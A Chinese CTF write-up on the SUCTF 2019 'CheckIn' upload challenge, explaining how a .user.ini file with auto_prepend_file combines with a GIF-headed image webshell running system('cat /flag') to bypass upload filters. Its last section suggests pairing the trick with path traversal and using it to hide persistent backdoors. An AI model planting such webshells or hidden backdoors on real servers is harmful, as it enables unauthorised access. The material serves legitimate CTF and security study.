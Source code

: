```yaml
---
title: 从SUCTF 2019 CheckIn 浅谈.user.ini的利用
author: Loong716
date: 2019-08-29 14:10:00 +0800
categories: [CTF]
tags: [File Upload]
---
```


文章首发于先知社区

https://xz.aliyun.com/t/6091

* toc
{:toc}

# 前言

在前段时间SUCTF 2019的比赛中做了一道名为**CheckIn**的文件上传题，学到了一种新的利用姿势——**.user.ini**。

原题的链接已经失效了，但SU的师傅们把题目源码贴在GitHub上了（感谢师傅们！！），如果想尝试的话可以下载源码复现，在这里放一下地址：

https://github.com/team-su/SUCTF-2019

***

## CheckIn题目分析

首先我们来看一下题目，首页就是一个简单的上传界面：

![](https://xzfile.aliyuncs.com/media/upload/picture/20190824211301-e66945d4-c670-1.png)

我们先上传一个php文件试一下，显然是illegal的
![](https://xzfile.aliyuncs.com/media/upload/picture/20190824211507-31a1ba9a-c671-1.png)

经过fuzz发现修改`content-type`和利用特殊扩展名`php5`、`pht`等都没有成功（当然也不会这么简单233）

然后我们把扩展名改为`aaa`试一下会怎样，发现回显：`&lt;? in contents!`，那么就是说文件内容不能包含`<?`喽，但我们此时知道它是黑名单过滤了。

![](https://xzfile.aliyuncs.com/media/upload/picture/20190824211520-392d2b50-c671-1.png)

我们再把文件内容换一下，发现回显：`exif_imagetype:not image!`，猜测后端应该调用了php的`exif_imagetype()`函数，这个很好绕过，添加图片文件头就可以了


![](https://xzfile.aliyuncs.com/media/upload/picture/20190824211528-3e3566da-c671-1.png)

我们添加最简单的gif文件头`GIF89a`，发现上传成功（注意看该文件夹下还有一个index.php，当时没有注意，但在后面有大用处）
![](https://xzfile.aliyuncs.com/media/upload/picture/20190824211539-44709bc8-c671-1.png)

我们先来捋一下思路：

-> 上传过滤为黑名单，但php脚本文件应该是无法上传的

-> 存在文件头过滤，需要添加图片文件的文件头

-> 文件的内容不能包含`<?`，但可以上传`<script language='php'><scirpt>`类型的图片马来绕过

既然是黑名单过滤而且可以上传图片马，那我们首先想到的肯定是传一个.htaccess上去来将图片马解析为php，而这种方法经过尝试发现失败了。。。

看了一下服务器是**nginx 1.10.3**，似乎版本较高，不存在解析漏洞。

随后在网上看到了一篇p牛的文章，讲的是利用`.user.ini`来上传php后门

***

## .user.ini

我们先在php手册上看一下对`.user.ini`的介绍：

![](https://xzfile.aliyuncs.com/media/upload/picture/20190824211552-4c92f9fe-c671-1.png)

也就是说我们可以在`.user.ini`中设置`php.ini`中**PHP_INI_PERDIR** 和 **PHP_INI_USER** 模式的 INI 设置，而且只要是在使用 **CGI／FastCGI** 模式的服务器上都可以使用`.user.ini`

在p牛的文章中提到了两个有趣的设置：**auto_prepend_file**和**auto_append_file**

我们再到手册中看了下这两个设置的定义：

![](https://xzfile.aliyuncs.com/media/upload/picture/20190824211604-538774ce-c671-1.png)

大致意思就是：我们指定一个文件（如a.jpg），那么该文件就会被包含在要执行的php文件中（如index.php），类似于在index.php中插入一句：`require(./a.jpg);`

这两个设置的区别只是在于**auto_prepend_file**是在文件前插入；**auto_append_file**在文件最后插入（当文件调用的有`exit()`时该设置无效）

## 寻找突破getflag

看过`.user.ini`的分析后我们的思路应该比较清晰了，我们可以上传一个这样的`.user.ini`：

``` php
GIF89a
auto_prepend_file=a.jpg
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20190824211621-5dab4d40-c671-1.png)

此时我们注意到上传目录下还有一个index.php，我们正好需要该目录下有一个可执行php文件，那这简直暴露了考点就是`.user.ini`，看来这个思路应该是可行的

然后再上传一个这样的图片马a.jpg：

``` php
GIF89a
<script language='php'>system('cat /flag');</script>
```

![](https://xzfile.aliyuncs.com/media/upload/picture/20190824211640-68ee25f6-c671-1.png)

最后，我们访问:

http://192.168.177.152:9021/uploads/6683eb5bfa1174bd139499256f60b7ab/index.php

即可得到flag

***

## .user.ini实战利用的可能性

综上所述`.user.ini`的利用条件如下：

1. 服务器脚本语言为PHP
2. 服务器使用CGI／FastCGI模式
3. 上传目录下要有可执行的php文件

从这来看`.user.ini`要比`.htaccess`的应用范围要广一些，毕竟`.htaccess`只能用于Apache

但仔细推敲我们就会感到**“上传目录下要有可执行的php文件”**这个要求在文件上传中也比较苛刻，应该没有天才开发者会把上传文件放在主目录或者把php文件放在上传文件夹。

但也不是全无办法，如果我们根据实际情况配合其他漏洞使用可能会有奇效，前段时间我遇到一个CMS对上传时的路径没有检测`../`，因此导致文件可被上传至任意目录，这种情况下我们就很有可能可以利用`.user.ini`

除此之外，把`.user.ini`利用在隐藏后门上应该是个很好的利用方法，我们在存在php文件的目录下留下`.user.ini`和我们的图片马，这样就达到了隐藏后门的目的。

***

**参考文章：**

https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html
